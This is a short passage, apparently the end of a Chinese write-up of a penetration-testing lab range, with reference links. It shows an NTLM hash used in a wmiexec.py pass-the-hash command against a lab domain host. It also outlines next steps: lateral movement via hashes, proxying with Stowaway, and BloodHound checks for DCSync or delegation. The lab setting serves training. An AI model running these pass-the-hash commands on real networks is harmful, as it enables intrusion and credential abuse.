 ```
c9a34cba5b7ce64bf65771a1e2e6b4b3

python3 wmiexec.py -hashes :c9a34cba5b7ce64bf65771a1e2e6b4b3 xiaorang.lab/WIN2016\$@172.22.8.15
```

这里准备横向的时候环境到期了，不过这个域控就直接抓Hash横向移动即可



由于时间的关系，就只大致的打了一遍，至于代理这里就直接用Stowaway走的VPS的代理，域内信息收集的话没有去全面去收集，也没有去看有没有其他方式去打域控，有时间的话可以试试BloodHound收集信息，看看是否有Dcsync权限，以及是否有委派



参考链接：

https://www.cnblogs.com/kingbridge/articles/17645128.html

http://nooemotion.com/2023/01/25/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83-tsclient/

https://exp10it.io/2023/07/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-tsclient-writeup/